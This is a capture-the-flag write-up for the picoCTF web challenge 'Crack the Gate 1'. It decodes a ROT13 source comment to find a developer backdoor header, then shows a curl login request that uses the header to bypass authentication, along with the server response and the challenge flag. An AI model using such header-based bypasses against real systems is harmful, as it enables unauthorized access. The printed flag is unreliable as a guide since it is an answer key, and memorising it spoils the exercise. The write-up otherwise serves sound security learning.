 ```yaml
---
title: "Crack the Gate 1"
category: "Web Exploitation"
description: "We're in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal."
---
```


## Information given

#### Description

We're in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We've uncovered the email address he uses to log in: `ctf-player@picoctf.org`. Unfortunately, we don't know the password, and the usual guessing techniques haven't worked. But something feels off... it's almost like the developer left a secret way in. Can you figure it out?

Additional details will be available after launching your challenge instance.

#### Hints
Developers sometimes leave notes in the code; but not always in plain text.
A common trick is to rotate each letter by 13 positions in the alphabet.

## Solution

Let's start by launching the instance.

After the instance is launched, let's read the "notes in the code". The hint is referring to comments:

To see code: right click > View Page Source.

The source code:

```javascript
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
    <style>
        body {
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            background-color: #eaeaed;
            font-family: Arial, sans-serif;
        }

        #loginForm {
            background: #fff;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            max-width: 400px;
            width: 100%;
        }

        #loginForm label {
            display: block;
            margin-bottom: 8px;
            font-weight: bold;
        }

        #loginForm input {
            width: calc(100% - 10px);
            padding: 8px;
            margin-bottom: 16px;
            border: 1px solid #ddd;
            border-radius: 4px;
        }

        #loginForm button {
            width: 100%;
            padding: 10px;
            background-color: #007BFF;
            border: none;
            color: white;
            border-radius: 4px;
            font-size: 16px;
        }

        #loginForm button:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
    <!-- Remove before pushing to production! -->   

    <form id="loginForm">
        <h2 style="font-size: 24px; margin-bottom: 24px;">
            Login
        </h2>
        <label for="email">Email:</label>
        <input type="email" id="email" name="email" required><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required><br>
        <button type="submit">Login</button>
    </form>

    <script>
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault();

            const formData = {
                email: document.getElementById('email').value,
                password: document.getElementById('password').value
            };

            fetch('/login', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(formData)
            })
            .then(response => response.json())
            .then(data => {
                console.log(data);
                if (data.success) {
                    prompt('Login successful!\nFlag:', data.flag);
                } else {
                    alert('Invalid credentials');
                }
            })
            .catch(error => console.error('Error:', error));
        });
    </script>
</body>
</html>
```

The important part:

```
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
```

This seems to be ROT13 encoding:

![[Screenshot 2025-10-01 at 20.10.46.png]]

Let's craft the curl payload:

```bash
siddharthsehgal@mac LAST_DIR % curl -i -X POST 'http://amiable-citadel.picoctf.net:50897/login' \

  -H 'Content-Type: application/json' \

  -H 'X-Dev-Access: yes' \

  -d '{"email":"ctf-player@picoctf.org","password":"anything"}'

  

HTTP/1.1 200 OK

**X-Powered-By**: Express

**Content-Type**: application/json; charset=utf-8

**Content-Length**: 127

**ETag**: W/"7f-OXFNNEgUDQ6luMcdemqCj4aTy9o"

**Date**: Wed, 01 Oct 2025 18:15:33 GMT

**Connection**: keep-alive

**Keep-Alive**: timeout=5

  

{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_7e5db33b}"}
```

So the flag is: `picoCTF{brut4_f0rc4_7e5db33b}`.

---
